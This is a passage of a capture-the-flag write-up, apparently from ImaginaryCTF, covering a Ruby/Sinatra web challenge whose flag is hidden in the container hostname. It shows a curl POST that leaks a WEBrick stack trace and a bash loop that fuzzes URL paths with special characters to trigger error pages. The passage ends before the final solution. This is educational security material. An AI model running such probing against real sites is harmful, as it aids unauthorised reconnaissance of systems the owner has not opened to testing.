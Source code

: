 Flag: `ictf{d1_color_picker_fr_2ce0dd3d}`

### crystal

![image](https://hackmd.io/_uploads/SkVHG19_A.png)

This is a web challenge with Ruby framework. Interestingly, there is not much in `app.rb`


```ruby 
require 'sinatra'

# Route for the index page
get '/' do
  erb :index
end
```

The flag not located in usual place but embedded in the `hostname`.

```conf 
version: '3.3'
services:
  deployment:
    hostname: $FLAG
    build: .
    ports:
      - 10001:80
```

How could we possibly get the `hostname` from the web? Is it possible that we could get the hostname through error page or invalid page? By sending a random path, we get the following page.

![image](https://hackmd.io/_uploads/BJgNEkc_R.png)

By sending a POST request, we get the following response.

```bash 
└─$ curl -XPOST http://crystals.chal.imaginaryctf.org                                              
WEBrick::HTTPStatus::LengthRequired: WEBrick::HTTPStatus::LengthRequired
	/var/lib/gems/3.0.0/gems/webrick-1.8.1/lib/webrick/httprequest.rb:530:in `read_body'
	/var/lib/gems/3.0.0/gems/webrick-1.8.1/lib/webrick/httprequest.rb:257:in `body'
	/var/lib/gems/3.0.0/gems/rackup-2.1.0/lib/rackup/handler/webrick.rb:67:in `block in initialize'
```

What if we send all special characters and see if we could get different response? I use the following script and identify few characters that could get us the flag!

```bash 
# Script
for chars in '!' '@' '#' '$' '%' '^' '&' '*' '(' ')' '-' '=' '+' '[' ']' '{' '}' ';' ':' '"' "'" '<' '>' ',' '.' '/' '?' '\\' '|' '`'; do echo $chars;echo;curl -ks "http://crystals.chal.imaginaryctf.org/"$chars| grep -i ictf;done

# Characters with Bad URI 
^
"
<
>
\
|
`
```
